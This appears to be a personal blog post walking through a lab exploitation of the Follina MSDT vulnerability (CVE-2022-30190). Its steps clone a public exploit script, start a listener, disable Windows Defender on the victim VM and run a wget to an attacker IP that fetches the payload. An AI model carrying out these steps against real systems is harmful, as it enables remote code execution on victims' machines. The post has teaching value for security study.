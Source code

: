 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina vulnerability (CVE-2022-30190)."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!
<br>
4 . Mitigations
<br>

---

## This post is designed to teach you how to exploit the CVE-2022-30190 MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this vulnerability can be exploited! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- CVE-2022-30190 is a vulnerability that has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, backdoor, etc. 

---

### 2. My Setup

For my attack computer, I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters. [Kali](https://www.kali.org/get-kali/#kali-virtual-machines)

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter. [Windows 11 Evaluation](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script that creates the malicious file, opens a listener, and hosts the malicious file.

**Before starting the exploit:**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion, you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    #Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    #Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    #Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    #Step 4: Open Powershell

    #Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer. 

**Thats it! You are in!**

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif?raw=true)

### 4. Mitigations

See the current response from [Microsoft](https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/) on how to mitigate the issue until a patch is released. 